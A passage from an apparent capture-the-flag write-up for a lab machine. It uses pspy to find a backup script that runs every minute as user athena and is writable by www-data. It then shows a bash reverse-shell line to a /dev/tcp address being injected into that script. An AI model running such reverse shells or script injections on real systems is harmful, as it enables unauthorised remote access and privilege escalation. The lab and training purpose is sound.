 ### **<strong><font color="DarkKhaki">Running pspy</font></strong>**

* Let's monitor processes using [pspy](https://github.com/DominicBreuker/pspy) to verify whether this scripts is executed regularly or not

To do so:  <br/>
**1-** Let's download [pspy64](https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64) from the latest release
```bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
```

**2-** Start a simple HTTP server using python, which will be serving the **pspy64** binary
```bash
python3 -m http.server 80
```

**3-** Download the **pspy64** binary in the **/tmp/** directory of the target machine
```bash
www-data@routerpanel:/$ cd /tmp/
www-data@routerpanel:/tmp/$ wget http://tun0-IP/pspy64
```

**4-** Make the binary **pspy64** executable and run it:
```bash
www-data@routerpanel:/tmp/$ chmod +x pspy64
www-data@routerpanel:/tmp/$ ./pspy64
```

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/thm-athena/2023-09-17 20_36_38-KaliLinux - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>pspy64</i></center>
<br/>

* As can be seen, the backup script is executed with `athena`'s privileges every minute. Additionally, the backup script is owned by me (the user `www-data`), which means we could inject a reverse shell script and get a shell access as `athena`.

### **<strong><font color="DarkKhaki">Shell as athena</font></strong>**
With that in mind, let's proceed with the following steps: <br/>

**1-** Inject the following reverse shell script in `/usr/share/backup/backup.sh` file:
```bash
/usr/bin/bash -c 'bash -i >& /dev/tcp/10.8.16.233/9998 0>&1'
```
